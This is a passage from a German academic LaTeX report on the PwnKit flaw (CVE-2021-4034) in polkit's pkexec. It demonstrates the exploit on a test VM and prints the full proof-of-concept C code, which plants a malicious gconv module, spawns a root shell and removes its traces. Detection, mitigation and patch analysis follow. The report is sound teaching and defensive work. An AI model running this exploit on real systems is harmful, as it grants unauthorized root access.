    \fbox{
\includegraphics[width=0.8\textwidth]{funktionsweise_g_printerr()}}
    \caption{Funktionsweise von \texttt{g\_printerr()}}
    \label{Funktionsweise von g\_printerr()}
\end{figure}
Da ein Angreifer über das Conversion Module die volle Kontrolle erlangen kann, lässt sich der Angriff wie folgt umsetzen:
\par
\texttt{g\_printerr()} wird mit einem Zeichensatz aufgerufen, der nicht dem UTF-8 Format entspricht. Infolgedessen versucht die Funktion die auszugebende Nachricht mittels Zeichenkonvertierung zu verarbeiten.
Das hierfür verwendete Conversion Module kann mit der Umgebungsvariable \texttt{GCONV\_PATH} angegeben werden. Die interne Funktion \texttt{g\_conv\_open()}
ist für das Laden des entsprechenden Konvertierungsmoduls zuständig. Sie überprüft die gesetzten Umgebungsvariablen
und lädt das angegeben Modul zur Durchführung der Konvertierung. Befindet sich an dieser Stelle ein manipuliertes Modul, wird
dessen Code im Zuge der vermeintlichen Zeichensatzkonvertierung ausgeführt. Da \texttt{pkexec} mit effektiver Benutzerkennung \texttt{0} läuft, erfolgt diese Codeausführung mit Root-Rechten.
Damit stellt die missbräuchliche Nutzung der Zeichensatzkonvertierung den zentralen technischen Angriffspunkt von CVE-2021-4034 dar.
Auf dieser Grundlage wird im folgenden Abschnitt der vollständige Angriffspfad detailliert nachvollzogen.

\section{Ausnutzen der Schwachstelle}
\label{sec:orgae0e261}

Die CVE-2021-4034 erlaubt ausschließlich eine lokale Ausnutzung. Voraussetzung für einen erfolgreichen Angriff ist zunächst
ein lokaler Zugriff auf das System, etwa in Form einer User-Shell.
Weiterhin muss das Programm \texttt{pkexec} auf dem System vorhanden sein und mit gestztem SUID-Bit ausgeführt werden, da nur so
eine Ausführung mit Root-Rechten möglich ist. Zusätzlich darf die installierte \texttt{polkit}-Version noch nicht gepatcht sein, da die Ausnutzung
ausschließlich ungepatchte Versionen betrifft.
Sind diese Bedingungen erfüllt, kann ein unprivilegierter lokaler Benutzer die Schwachstelle ausnutzen, um Root-Rechte zu erlangen.
\par
Für die praktische Demonstration des Exploits wurde Ubuntu 18.04.1 LTS \cite{c20_ubuntu_18.04.1} in einer virtuellen Maschine installiert und als
verwundbares Testsystem verwendet.

\par
\textbf{Vor dem eigentlichen Exploit:}
\par 1. Der erste Befehl überprüft, ob auf dem System SUID-Binaries vorhanden sind. Ist \texttt{pkexec} darunter aufgelsitet, läuft
es mit Root-Rechten, was eine Voraussetzung für die Ausnutzbarkeit der Schwachstelle darstellt \cite{c12_verteidigung_chmod}.

\begin{lstlisting}[caption={Auflistung vorhandener SUID-Binaries}, label={lst:suid-binaries}, language=bash]
    find / -perm -4000 2>/dev/null
\end{lstlisting}

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{find_perm}}
    \caption{Vorhandene SUID-Binaries}
    \label{fig:Vorhandene SUID-Binaries}
\end{figure}
\par

\par 2. Der nachfolgende Befehl muss zeigen, dass \texttt{pkexec} als SUID-Root-Binary konfiguriert ist \cite{c12_verteidigung_chmod}.
\begin{lstlisting}[caption={Zeigt, ob \texttt{pkexec} ein SUID-Root-Binary ist}]
    ls -al /usr/bin/pkexec
\end{lstlisting}

\begin{figure}[H]
    \centering
    \fbox{%
        \begin{minipage}{0.79\textwidth}
            \centering
            
\includegraphics[
                width=\linewidth,
            ]{suid_root_bin}
        \end{minipage}
    }
    \caption{\texttt{pkexec} als SUID-Root-Binary konfiguriert}
    \label{fig:pkexec als SUID-Root-Binary konfiguriert}
\end{figure}

\par Das \texttt{s} in \texttt{-rwsr} bedeutet, dass das SUID-Bit gesetzt ist. Dadurch wird \texttt{pkexec} immer mit
Root-Rechten ausgeführt, egal welche Benutzer es startet. Genau das ist Voraussetzung für den Exploit.
\par

\par 3. Ermittlung der installierten Version von \texttt{pkexec} \cite{c12_verteidigung_chmod}.
\begin{lstlisting}[caption={Genaue Version von policykit-1}]
    apt list --installed | grep policykit-1
\end{lstlisting}

\begin{figure}[H]
    \centering
    \fbox{%
        \begin{minipage}{0.79\textwidth}
            \centering
            
\includegraphics[
                width=\linewidth,
            ]{policykit1_version}
        \end{minipage}
    }
    \caption{Check policykit-1 version}
    \label{fig:Check policykit-1 version}
\end{figure}

\par
oder zur allgemeinen \texttt{pkexec}-Version
\par
\begin{lstlisting}[caption={Version von \texttt{pkexec}}]
    pkexec --version
\end{lstlisting}

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{pkexec_version}}
    \caption{\texttt{pkexec}-Version}
    \label{fig:pkexec-Version}
\end{figure}
\par\vspace{2em}

\textbf{Durchführung des Exploits:}
\par 1. Zur Demonstration der erfolgreichen Privilege-Escalation wird zunächst als Root-User eine geschützte Datei angelegt
\begin{lstlisting}[caption={Anlegen einer geschützten Datei}]
    echo "secret" > /root/secret.txt
    chmod 600 /root/secret.txt
\end{lstlisting}
\par

2. Für den Proof-of-Concept wird ein frei zugänglicher Exploit von Github verwendet \cite{c17_proof_of_concept_github}.
\begin{lstlisting}[language=bash,caption={git-Befehl für CVE-2021-4034}]
    git clone https://github.com/arthepsy/CVE-2021-4034
\end{lstlisting}
\par

3. Wechseln in das Projektverzeichnis \cite{c17_proof_of_concept_github}
\begin{lstlisting}[caption={Wechsel in das geklonte Repository}]
    cd CVE-2021-4034
\end{lstlisting}
\par

4. Kompilieren des Exploit-Quellcodes mit GNU C Compiler \texttt{gcc} \cite{c17_proof_of_concept_github}
\begin{lstlisting}[language=bash,caption={Kompilieren des Quellcodes}]
    gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
\end{lstlisting}

\par

5. Wiedergabe der aktuellen Benutzer- und Gruppenrechte des Prozesses. Der Wert \texttt{1000} heißt unprivilegierter Benutzer. \cite{c12_verteidigung_chmod}
\begin{lstlisting}[language=bash,caption={id}]
    id
\end{lstlisting}

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{id_Rechte_vor_Exploit}}
    \caption{Aktuelle Rechte mit 'id'}
    \label{fig:Aktuelle Rechte mit 'id'}
\end{figure}
\par

6. Exploit ausführen \cite{c12_verteidigung_chmod}.
\begin{lstlisting}[language=bash, caption={Ausführen des Exploits}]
    ./cve-2021-4034-poc
\end{lstlisting}

\par

7. Root Rechte überprüfen und Ausführung der zuvor angelegten geschützten Datei \cite{c12_verteidigung_chmod}.
\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{Rechte_nach_Exploit_und_txt_ausfuehren}}
    \caption{Ausführung des Exploits und Root-Rechte}
    \label{fig:Ausführung des Exploits und Root-Rechte}
\end{figure}
\par Nach der Ausführung des Exploits zeigt der Befehl \texttt{id} die Benutzer- und Gruppenkennung \texttt{uid=0(root)}, womit Root-Rechte erlangt wurden.
\texttt{whoami} bestätigt dies durch die Ausgabe \texttt{root}.
Der erfolgreiche Zugriff auf die zuvor geschützte Datei \texttt{/root/secret.txt} mittels \texttt{cat} belegt, dass der Exploit erfolgreich war.
\par

Im Folgenden wird der zugrunde liegende Proof-of-Concept-Code erläutert \cite{c17_proof_of_concept_github}.

\begin{lstlisting}[caption={Proof of Concept aus \texttt{cve-2021-4034-poc.c}}]
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
    "#include <stdio.h>\n"
    "#include <stdlib.h>\n"
    "#include <unistd.h>\n\n"
    "void gconv() {}\n"
    "void gconv_init() {\n"
    "    setuid(0); setgid(0);\n"
    "    seteuid(0); setegid(0);\n"
    "    system(\"export PATH=/usr/local/sbin:/usr/"
    "local/bin:/usr/sbin:/usr/bin:/sbin:/bin;"
    " rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
    "    exit(0);\n"
    "}";

int main(int argc, char *argv[]) {
    FILE *fp;
    system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
    system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
    fp = fopen("pwnkit/pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
    char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
    execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
\end{lstlisting}
\par

\begin{lstlisting}[caption={Anlegen von \texttt{GCONV\_PATH}}]
    system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
\end{lstlisting}

\par
Erstellt ein Verzeichnis mit dem Namen \texttt{GCONV\_PATH=.} sowie eine ausführbare Datei \texttt{GCONV\_PATH=./pwnkit}. Diese
Dateinamen werden verwendet, um später über einen Out-of-Bounds-Zugriff in \texttt{pkexec} die sicherheitskritische
Umgebungsvariable \texttt{GCONV\_PATH} in den Prozess einzuschleusen.
\par

\begin{lstlisting}[caption={Erstellen der \texttt{gconv}-Modules}]
    system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
\end{lstlisting}

\par
Legt das Verzeichnis \texttt{pwnkit/} an und erzeugt darin die Datei \texttt{gconv-modules}.
Diese Datei konfiguriert für \texttt{glibc} ein benutzerdefiniertes zeichenkonvertierungsmodul.
Wird eine Konvertierung von \texttt{UTF-8} nach \texttt{PWNKIT} angefordert, lädt \texttt{glibc} das Modul \texttt{pwnkit.so}.
Beim Laden dieses Moduls wird später die Funktion \texttt{gconv\_init()} automatisch ausgeführt.
\par Der Aufbau eines Eintrags in der Datei \texttt{gconv-modules} folgt dem Schema
\texttt{module <FROM>// <TO>// <MODULE> <PRIORITY>}.
Dabei beschreibt hier \texttt{<FROM>} den Quellzeichensatz \texttt{UTF-8}, \texttt{<TO>} den Zielzeichensatz
\texttt{PWNKIT}, \texttt{<MODULE>} den Namen des zu ladenden Moduls \texttt{pwnkit.so} und
\texttt{<PRIORITY>} die erhöhte Ladepriorität des Moduls.

\par

\begin{lstlisting}[caption={Schreiben und Kompilieren des Moduls}]
    fp = fopen("pwnkit/pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
\end{lstlisting}

\par
Schreibt den in der Variable \texttt{shell} enthaltenen C-Code in die Datei \texttt{pwnkit/pwnkit.c} und kompiliert diesen anschließend zu einer
dynamsichen Bibliothek \texttt{pwnkit.so}.
Diese Bibliothek wird später durch den \texttt{gconv}-Mechanismus von \texttt{glibc} geladen.
\par

\begin{lstlisting}[caption={Payload mit \texttt{gconv\_init()}}]
    char *shell =
    [...]
    "void gconv() {}\n"
    "void gconv_init() {\n"
    "    setuid(0); setgid(0);\n"
    "    seteuid(0); setegid(0);\n"
    "    system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
    [...]
\end{lstlisting}

\par
Die Funktion \texttt{gconv\_init()} wird automatisch ausgeführt, sobald das Modul \texttt{pwnkit.so} geladen wird.
Durch \texttt{setuid(0)} und \texttt{setgid(0)} werden Root-Privilegien gesetzt. Anschließend wird eine Root-Shell \texttt{/bin/sh} gestartet.
Vor dem Start der Shell werden die angelegten Exploit-Artefakte entfernt, um Spuren zu minimieren.
\par

\begin{lstlisting}[caption={Manipuliertes Environment}]
    char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
\end{lstlisting}

\par
Das Environment-Array \texttt{env[]} wird gezielt manipuliert, um die Schwachstelle in \texttt{pkexec} auszunutzen.
Durch \texttt{CHARSET=PWNKIT} wird \texttt{glibc} gezwungen, eine Zeichenkonvertierung durchzuführen.
In Kombination mit dem manipulierten \texttt{GCONV\_PATH} wird dabei das präparierte Modul \texttt{pwnkit.so} geladen.
\texttt{SHELL=pwnkit} erzeugt eine Fehlermeldung innerhalb von \texttt{pkexec}, wodurch intern \texttt{g\_printerr()} aufgerufen und der \texttt{gconv}-Mechanismus
zuverlässig aktiviert wird.
Das abschließende \texttt{NULL} kennzeichnet das Ender der Environment-Liste.

\par

\begin{lstlisting}[caption={6 Ausführung von \texttt{pkexec}}]
    execve("/usr/bin/pkexec", (char*[]){NULL}, env);
\end{lstlisting}

\par
Ruft \texttt{pkexec} über \texttt{execve()} mit einer leeren Argumentlist auf \texttt{argv[0]==NULL}.
Da \texttt{pkexec} diesen Fall nicht korrekt überprüft, kommt es zu einem Out-of-Bounds-Zugriff auf das Argument-Array.
Dadurch werden zuvor entfernte Umgebungsvariablen wieder eingeführt, was das Laden des manipulierten \texttt{gconv}-Moduls ermöglicht und
schließlich zur ausführung von Code mit Root-Rechten führt.

\section{Verteidigung der Schwachstelle}
\label{sec:org5d09783}

Zur Verteidigung gegen CVE-2021-4034 ist es zunächst entscheidend festzustellen, ob ein System überhaupt von der Schwachstelle
betroffen ist. Darauf aufbauend können geeignete Gegenmaßnahmen ergriffen werden, um eine Ausnutzung zuverlässig zu verhindern.
\par
Zur Feststellung, ob ein System betroffen ist, kann das Toolset PwnKit-Hunter eingesetzt werden. Es ermöglicht eine automatisierte
Überprüfung, ob die installierte \texttt{polkit}-Version die bekannte Schwachstelle noch enthält (vgl. \cite{c10_pwnkit_hunter}).
\par
PwnKit-Hunter \cite{c10_pwnkit_hunter, c11_git_pwnkit_hunter} stellt dafür zwei unterschiedliche Prüfmechanismen bereit:
\par
1. \texttt{CVE-2021-4034\_Finder.py}:
\par
\begin{lstlisting}[caption={Aufruf \texttt{CVE-2021-4034\_Finder.py} zur Prüfung der \texttt{polkit}-Version}]
git clone https://github.com/cyberark/PwnKit-Hunter.git
cd PwnKit-Hunter
./CVE-2021-4034_Finder.py
\end{lstlisting}
\par Das Pyhton-Skript \texttt{CVE-2021-4034\_Finder.py} ermittelt anhand des lokalen apt cache, welche \texttt{polkit}-Version installiert ist, und vergleicht
diese mit der für die jeweilige Distribution als sicher bekannten Version. Auf diese Weise kann festgestellt werden, ob das System
offiziell gepatch wurde. Mit \texttt{apt install policykit-1} kann die aktuelleste Version installiert werden (vgl. \cite{c10_pwnkit_hunter, c11_git_pwnkit_hunter}).
\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{Proof_PwnKit_Hunter_Finder}}
    \caption{PwnKit-Hunter Finder und \texttt{policykit-1} update}
    \label{fig:PwnKit-Hunter Finder und policykit-1 update}
\end{figure}
\par

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{Policykit_update}}
    \caption{Fehlgeschlagene Ausnutzung des Exploits nach \texttt{policykit-1} update}
    \label{fig:Fehlgeschlagene Ausnutzung des exploit nach policykit-1 update}
\end{figure}
\par
Nach dem Update des \texttt{policykit-1} ist eine Ausnutzung der Schwachstelle nicht mehr möglich.

\par
2. \texttt{PwnKit-Patch-Finder.c}:
\par
\begin{lstlisting}[caption={Laufzeitbasierte Verwundbarkeitsprüfung von \texttt{pkexec}}]
    git clone https://github.com/cyberark/PwnKit-Hunter.git
    cd PwnKit-Hunter
    gcc PwnKit-Patch-Finder.c -o PwnKit-Patch-Finder
    ./PwnKit-Patch-Finder
\end{lstlisting}

\par Ergänzend dazu überprüft \texttt{PwnKit-Patch-Finder.c} das tatsächliche Laufzeitverhalten von \texttt{pkexec}. Der von Debian und Ubuntu
bereitgestellte Patch fügt einen zusätzlichen Abbruchpfad \texttt{exit()} hinzu, der nur in der gepatchten Version vorhanden ist.
Das Tool versucht, dieses Verhalten geziel auszulösen und schließt aus dem Rückgabewert von \texttt{pkexec}, ob das System verwundbar ist.
Hinweis: Das zweite Tool ist auf Debian- und Ubuntu-basierte Systeme beschränkt, da andere Distributionen die
Schwachstelle mit einem anderen Ansatz behoben haben (vgl. \cite{c10_pwnkit_hunter, c11_git_pwnkit_hunter}).

\par
Ist ein System verwundbar, kann die Schwachstelle zunächst auch ohne Patch in ihrer Ausnutzbarkeit direkt eingeschränkt werden. Eine einfache
Maßnahme ist, die privilegierte Ausführung von \texttt{pkexec} zu unterbinden (vgl. \cite{c10_pwnkit_hunter, c12_verteidigung_chmod, c16_qualys}).
\par
\begin{lstlisting}[caption={Entfernen des SUID-Bits von \texttt{pkexec}}]
    chmod 0755 /usr/bin/pkexec
\end{lstlisting}

\par
Der Befehl dient dazu, die Dateirechte in \texttt{pkexec} zu verändern und damit dessen privilegierte Ausführung zu unterbinden.
\par
\texttt{chmod} legt die Zugriffsrechte einer Datei fest. Die Ziffer \texttt{0} steht für die \texttt{special permission bits}
(SUID, SGID, Sticky Bit). Dadurch wird das SUID-Bit von \texttt{pkexec} entfernt.
Die nachfolgenden Ziffern definieren die Rechte für \texttt{Owner, Group und Others}. \texttt{7} erlaubt das Lesen, Schreiben und Ausführen,
\texttt{5} erlaubt Lesen und Ausführen.
\texttt{/usr/bin/pkexec} ist der vollständige Pfad zur ausführbaren \texttt{pkexec}-Datei, welches Bestandteil von \texttt{polkit}
ist und standardmäßig mit erhöhten Rechten ausgeführt wird. Durch das Entfernen ist eine Ausnutzung der Schwachstelle nicht mehr möglich,
da \texttt{pkexec} keine Root-Rechte mehr erlangen kann.
Ein Nachteil ist, dass privilegierte Aktionen, die üblicherweise über \texttt{pkexec} ausgeführt werden,
nach dem Entfernen des SUID-Bits nicht mehr funktionieren.
\par
\begin{lstlisting}[caption={Zeigt, ob \texttt{pkexec} ein SUID-Root-binary ist}]
    ls -al /usr/bin/pkexec
\end{lstlisting}

\par

\begin{figure}[H]
    \centering
    \fbox{%
        \begin{minipage}{0.8\textwidth}
            \centering
            
\includegraphics[
                width=\linewidth,
            ]{pkexec_rechte_nach_chmod}
        \end{minipage}
    }
    \caption{Neue \texttt{pkexec} Rechte}
\end{figure}

\par Das \texttt{x} in \texttt{-rwxr} bedeutet jetzt nur noch, dass die Datei ausführbar ist, aber mit den Rechten des aufrufenden Benutzers, nicht mehr als Root.
\par

\begin{figure}[H]
    \centering
    \fbox{%
        \begin{minipage}{0.8\textwidth}
            \centering
            
\includegraphics[
                width=\linewidth,
                height=0.45\linewidth
            ]{chmod}
        \end{minipage}
    }
    \caption{Erfolgreiche Verteidigung der Schwachstelle durch Entfernung des SUID-Bits von \texttt{pkexec}
    \label{fig:Erfolgreiche Verteidigung der Schwachstelle durch Entfernung des SUID-Bits von pkexec}}
\end{figure}

\par
Als dauerhafte und empfohlene Gegenmaßnahme gilt die Installation der von den jeweiligen Distributionen bereitgestellten
Sicherheitsupdates. Diese beheben die Schwachstelle direkt im Quellcode von \texttt{pkexec}, indem fehlerhafte Annahmen über den Zustand
der Argument- und Umgebungsvariablen korrigiert und zusätzliche Validierungsprüfungen eingeführt wurden (vgl. \cite{c12_verteidigung_chmod, c13_verteidigung_info}).
\par
Auf Debian- und Ubuntu-basierten Systemen erfolgt die Behebung in der Regel über eine reguläre Systemaktualisierung, bei der
eine gepatchte Version des Pakets \texttt{policykit-1} installiert wird (vgl. \cite{c14_verteidigung_update_patch_und_version_check}).

\par
Im Gegensatz zur temporären Entfernung des SUID-Bits bleibt die volle Funktionalität von \texttt{pkexec} bei dieser
Lösung erhalten.
\par
Nach der Installation der Sicherheitsupdates kann der Patch-Status manuell überprüft werden.
\begin{lstlisting}[caption={Überprüfung der \texttt{pkexec}-Version}]
    pkexec --version
\end{lstlisting}


\par
oder für die genauere policykit-1 Version
\par
\begin{lstlisting}[caption={Überprüfung policykit-1 Version}]
    apt list --installed | grep policykit-1
\end{lstlisting}


\par Für Debian Buster gilt die Schwachstelle ab $\ge$ \texttt{policykit-1 0.105-25+deb10u1} als behoben, für
Debian Bullseye ab $\ge$ \texttt{policykit-1 0.105-31+deb11u1} und
Debian Bullseye $\ge$ \texttt{policykit-1 0.105-31+deb11u1} und
Ubuntu Varianten mit $\ge$ \texttt{0.105-26ubuntu1.2}
 \cite{c14_verteidigung_update_patch_und_version_check, c15_patched_version_debian_ubuntu}.
\par

Im nachfolgenden wird darauf eingegangen wie die Schwachstelle auf Code-Ebene gepatcht wurde (vgl. \cite{c18_polkit_github_pkexec, c19_proof_of_concept_github}).
\par Zur Erinnerung:
\par Alter \texttt{pkexec} Code \cite{c16_qualys}:

\begin{lstlisting}[caption={Alter Code mit Schwachstelle in \texttt{pkexec.c}}]
435     main (int argc, char *argv[])
436     {
...
534         for (n = 1; n < (guint) argc; n++)
535         {
...
568         }
...
610         path = g_strdup (argv[n]);          <-- Out-of-Bounds read
...
629         if (path[0] != '/')
630         {
...
632             s = g_find_program_in_path (path);
...
639             argv[n] = path = s;              <-- Out-of-Bounds write
640         }
\end{lstlisting}

\par
Änderung im geptachten \texttt{pkexec.c} Code \cite{c19_proof_of_concept_github}:

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=\textwidth]{updated_pkexec.png}}
    \caption{Patched \texttt{pkexec.c} Code \cite{c19_proof_of_concept_github}}
    \label{fig:Patched pkexec.c code}
\end{figure}

\textbf{1. Änderung:}
\begin{lstlisting}[caption={Überprüfung von argc}]
    if (argc < 1)
    {
    exit(127);
    }
\end{lstlisting}

\par Zunächst wurde die Überprüfung von \texttt{argc} zu Beginn der \texttt{main()} eingefügt.
Damit wird sichergestellt: Wenn \texttt{argc < 1} gibt es einen sofortigen Abbruch und damit keinen Out-Of-Bounds.

\par
\textbf{2. Änderung:}
\begin{lstlisting}[caption={Ursache für den Out-Of-Bounds-Write}, escapeinside={(*@}{@*)}]
    (*@\sout{argv[n] = path = s;}@*)
\end{lstlisting}

\begin{lstlisting}[caption={Überprüfung der Gültigkeit des Pointers}]
    if (argv[n] != NULL)
    {
    argv[n] = path;
    }
\end{lstlisting}
\par
Der Out-Of-Bounds-Write wurde entfernt. Vor dem Patch wurde ohne Überprüfung nach \texttt{argv[n]} geschrieben und wie in 3.1 erklärt
\texttt{envp[0]} überschrieben. Durch den Patch wird nun überprüft, ob der Pointer tatsächlich gültig ist.
Das verhindert das Überschreiben von \texttt{envp[0]}.
\par

\par
Änderung in \texttt{pkcheck.c} \cite{c19_proof_of_concept_github}:

\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=\textwidth]{updated_pkcheck.png}}
    \caption{Patched \texttt{pkcheck.c} Code \cite{c19_proof_of_concept_github}}
    \label{fig:Patched pkcheck.c code}
\end{figure}
\par
Die Anpassung in \texttt{pkcheck} dient der Absicherung derselben Fehlerklasse.

\chapter{Verwandte Arbeiten}

LPE-Schwachstellen sind immer wieder in sicherheitskritischen
Systemkomponenten identifiziert. Hierbei wird unprivilegierten Benutzern der Zugriff
auf administrative Funktionen ermöglicht. Da diese Systemkomponenten eine
zentrale Rolle in der Rechteverwaltung und Authentifizierung einnehmen, stellen
sie ein besonderes Angriffsziel dar.
\par
Eine thematisch verwandte Schwachstelle ist CVE-2021-3560
